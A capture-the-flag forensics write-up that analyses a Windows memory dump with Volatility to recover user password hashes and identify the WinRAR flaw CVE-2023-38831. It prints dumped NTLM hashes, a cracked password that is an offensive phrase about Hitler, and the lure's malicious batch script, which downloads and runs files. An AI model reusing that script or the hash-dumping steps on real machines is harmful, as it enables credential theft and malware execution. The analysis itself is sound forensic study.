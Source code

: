 # Access Granted

**Flag:** `BITSCTF{adolfhitlerrulesallthepeople}`

We're told to extract a password from the memdump first. I first tried to use vol2 on the dump, but it failed and I was forced to use vol3.

I looked around for how to dump passwords in vol3 and found out we use the `windows.hashdump` command. Using it, we successfully get the hashes of MogamBro.

```
~/Downloads $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.hashdump
Volatility 3 Framework 2.7.1
Progress:  100.00               PDB scanning finished
User    rid     lmhash  nthash

Administrator   500     aad3b435b51404eeaad3b435b51404ee        8a320467c7c22e321c3173e757194bb3
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount  503     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount      504     aad3b435b51404eeaad3b435b51404ee        74d0db3c3f38778476a44ff9ce0aefe2
MogamBro        1000    aad3b435b51404eeaad3b435b51404ee        8a320467c7c22e321c3173e757194bb3
```

We have the nthash and the lmhash. Dumping them both into a hash decryption website like CrackStation, we get the password as `adolfhitlerrulesallthepeople`.

![password](../../../Images/1717068448663540153.png)

# 0.69 Day

**Flag:** `BITSCTF{CVE-2023-38831}`

We list all the processes MogamBro is running through `pstree`. Filtering out garbage processes like `svchost.exe` we find the system running apps of interest like `chrome.exe`, `WinRAR.exe` and `SkypeApp.exe`

```
~/Downloads $ python3 revfor/volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.pstree > tree
```

```
Volatility 3 Framework 2.7.1

PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	Audit	Cmd	Path

4	0	System	0xb606bf49a040	143	-	N/A	False	2024-02-15 16:09:58.000000 	N/A	-	-	-
* 356	4	smss.exe	0xb606c319d040	2	-	N/A	False	2024-02-15 16:09:58.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\smss.exe	-	-
* 2012	4	MemCompression	0xb606c6440080	58	-	N/A	False	2024-02-15 16:10:03.000000 	N/A	MemCompression	-	-
* 108	4	Registry	0xb606bf5b5040	4	-	N/A	False	2024-02-15 16:09:57.000000 	N/A	Registry	-	-
456	444	csrss.exe	0xb606c507e0c0	11	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\csrss.exe	%SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16	C:\Windows\system32\csrss.exe
532	444	wininit.exe	0xb606c583a080	1	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\wininit.exe	wininit.exe	C:\Windows\system32\wininit.exe
* 696	532	lsass.exe	0xb606c5881080	13	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\lsass.exe	C:\Windows\system32\lsass.exe	C:\Windows\system32\lsass.exe
* 840	532	fontdrvhost.ex	0xb606c605a180	5	-	0	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe	-	-
* 676	532	services.exe	0xb606c583d140	8	-	0	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\services.exe	C:\Windows\system32\services.exe	C:\Windows\system32\services.exe
** 1792	676	VBoxService.ex	0xb606c6487280	11	-	0	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\VBoxService.exe	C:\Windows\System32\VBoxService.exe	C:\Windows\System32\VBoxService.exe
** 6924	676	SecurityHealth	0xb606c7768280	9	-	0	False	2024-02-15 16:10:20.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SecurityHealthService.exe	C:\Windows\system32\SecurityHealthService.exe	C:\Windows\system32\SecurityHealthService.exe
*** 8872	2320	audiodg.exe	0xb606c7b1c080	7	-	0	False	2024-02-15 16:36:41.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\audiodg.exe	C:\Windows\system32\AUDIODG.EXE 0x528	C:\Windows\system32\AUDIODG.EXE
** 548	676	SgrmBroker.exe	0xb606c84de080	8	-	0	False	2024-02-15 16:12:04.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SgrmBroker.exe	C:\Windows\system32\SgrmBroker.exe	C:\Windows\system32\SgrmBroker.exe
*** 2340	816	HxTsr.exe	0xb606c7b90080	13	-	1	False	2024-02-15 16:31:02.000000 	N/A	\Device\HarddiskVolume1\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe	"C:\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe" -ServerName:Hx.IPC.Server	C:\Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\HxTsr.exe
*** 4400	4316	ctfmon.exe	0xb606c6ee4280	9	-	1	False	2024-02-15 16:10:08.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\ctfmon.exe	"ctfmon.exe"	C:\Windows\system32\ctfmon.exe
** 2664	676	spoolsv.exe	0xb606c6719240	7	-	0	False	2024-02-15 16:10:04.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\spoolsv.exe	C:\Windows\System32\spoolsv.exe	C:\Windows\System32\spoolsv.exe
** 2928	676	MsMpEng.exe	0xb606c67e2280	8	-	0	False	2024-02-15 16:10:04.000000 	N/A	\Device\HarddiskVolume1\Program Files\Windows Defender\MsMpEng.exe	"C:\Program Files\Windows Defender\MsMpEng.exe"	C:\Program Files\Windows Defender\MsMpEng.exe
540	524	csrss.exe	0xb606c583f140	14	-	1	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\csrss.exe	%SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16	C:\Windows\system32\csrss.exe
604	524	winlogon.exe	0xb606c585f080	5	-	1	False	2024-02-15 16:10:02.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\winlogon.exe	winlogon.exe	C:\Windows\system32\winlogon.exe
* 848	604	fontdrvhost.ex	0xb606c6058180	5	-	1	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe	-	-
* 4268	604	userinit.exe	0xb606c6e70080	0	-	1	False	2024-02-15 16:10:07.000000 	2024-02-15 16:10:27.000000 	\Device\HarddiskVolume1\Windows\System32\userinit.exe	-	-
** 4352	4268	explorer.exe	0xb606c6e76340	83	-	1	False	2024-02-15 16:10:07.000000 	N/A	\Device\HarddiskVolume1\Windows\explorer.exe	C:\Windows\Explorer.EXE	C:\Windows\Explorer.EXE
*** 7044	4352	VBoxTray.exe	0xb606c7642080	11	-	1	False	2024-02-15 16:10:21.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\VBoxTray.exe	"C:\Windows\System32\VBoxTray.exe" 	C:\Windows\System32\VBoxTray.exe
*** 6884	4352	SecurityHealth	0xb606c727a080	1	-	1	False	2024-02-15 16:10:20.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\SecurityHealthSystray.exe	"C:\Windows\System32\SecurityHealthSystray.exe" 	C:\Windows\System32\SecurityHealthSystray.exe
*** 7120	4352	OneDrive.exe	0xb606c778e240	26	-	1	True	2024-02-15 16:10:21.000000 	N/A	\Device\HarddiskVolume1\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe	"C:\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background	C:\Users\MogamBro\AppData\Local\Microsoft\OneDrive\OneDrive.exe
*** 9840	4352	FTK Imager.exe	0xb606c828f080	23	-	1	False	2024-02-15 16:36:43.000000 	N/A	\Device\HarddiskVolume1\Program Files\AccessData\FTK Imager\FTK Imager.exe	"C:\Program Files\AccessData\FTK Imager\FTK Imager.exe" 	C:\Program Files\AccessData\FTK Imager\FTK Imager.exe
*** 8436	4352	WinRAR.exe	0xb606c7a17080	5	-	1	False	2024-02-15 16:33:04.000000 	N/A	\Device\HarddiskVolume1\Program Files\WinRAR\WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"	C:\Program Files\WinRAR\WinRAR.exe
* 404	604	dwm.exe	0xb606c616c080	19	-	1	False	2024-02-15 16:10:03.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\dwm.exe	"dwm.exe"	C:\Windows\system32\dwm.exe
4864	4900	GoogleCrashHan	0xb606c830d080	3	-	0	True	2024-02-15 16:12:06.000000 	N/A	\Device\HarddiskVolume1\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler.exe	-	-
7632	4900	GoogleCrashHan	0xb606c85e4080	3	-	0	False	2024-02-15 16:12:06.000000 	N/A	\Device\HarddiskVolume1\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler64.exe	-	-
7580	7896	chrome.exe	0xb606bfe05080	0	-	1	False	2024-02-15 16:12:07.000000 	2024-02-15 16:12:58.000000 	\Device\HarddiskVolume1\Program Files\Google\Chrome\Application\chrome.exe	-	-
6624	8812	msedge.exe	0xb606c776f300	0	-	1	False	2024-02-15 16:12:32.000000 	2024-02-15 16:12:32.000000 	\Device\HarddiskVolume1\Program Files (x86)\Microsoft\Edge\Application\msedge.exe	-	-
1468	7352	cmd.exe	0xb606c7de1080	1	-	1	False	2024-02-15 16:33:09.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"   	C:\Windows\system32\cmd.exe
* 3724	1468	notepad.exe	0xb606c70a6080	1	-	1	False	2024-02-15 16:33:10.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\notepad.exe	notepad.exe  secret.png.enc 	C:\Windows\system32\notepad.exe
* 8652	1468	chrome.exe	0xb606c8115080	0	-	1	False	2024-02-15 16:33:10.000000 	2024-02-15 16:33:50.000000 	\Device\HarddiskVolume1\Program Files\Google\Chrome\Application\chrome.exe	-	-
* 780	1468	conhost.exe	0xb606c8905080	3	-	1	False	2024-02-15 16:33:09.000000 	N/A	\Device\HarddiskVolume1\Windows\System32\conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4	C:\Windows\system32\conhost.exe
```

Opening the `.ad1` file with FTKImager and exporting the data in its Downloads folder, we can see what looks to be a malicious batch script running.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

I also run the `cmdline` command on it.

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem windows.cmdline.CmdLine > CMD
.
.
.
8436	WinRAR.exe	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\MogamBro\Downloads\Follow-these-instructions.zip"
1468	cmd.exe	C:\Windows\system32\cmd.exe  /K "C:\Users\MogamBro\AppData\Local\Temp\Rar$DIa8436.27164\steps.pdf .bat"
780	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
8652	chrome.exe	Required memory at 0xb149572020 is not valid (process exited?)
3724	notepad.exe	notepad.exe  secret.png.enc
```

At this point I think the vulnerable program is either WinRAR or Notepad. I extracted both their files using `dumpfile` to look at their binaries.

**Notepad**

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem dumpfile --pid 3724 --virtaddr 0xb606ca106830
```

**WinRAR**

```
~/Downloads/revfor $ python3 volatility3/vol.py -f ~/Projects/Cryptonite/T*/F*\ -\ June\ */C*/F*/m*/memdump.mem dumpfile --pid 8436 --virtaddr 0xb606c737e580
```

Unfortunately, I tried running them both using `wine` and neither worked. So I now had to dig for relevant CVE's myelf.

I first started searching WinRAR CVE's to find a relevant vulnerability. Searching for exploits related to zip files and batch scripts, I was lead to [this blog post](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/exploring-winrar-vulnerability-cve-2023-38831/) by McAfee. It matched our threat model exactly, such as the file names of the pdf and zip being the same. Hence, we get the required CVE as `CVE-2023-38831`, and thus the flag.

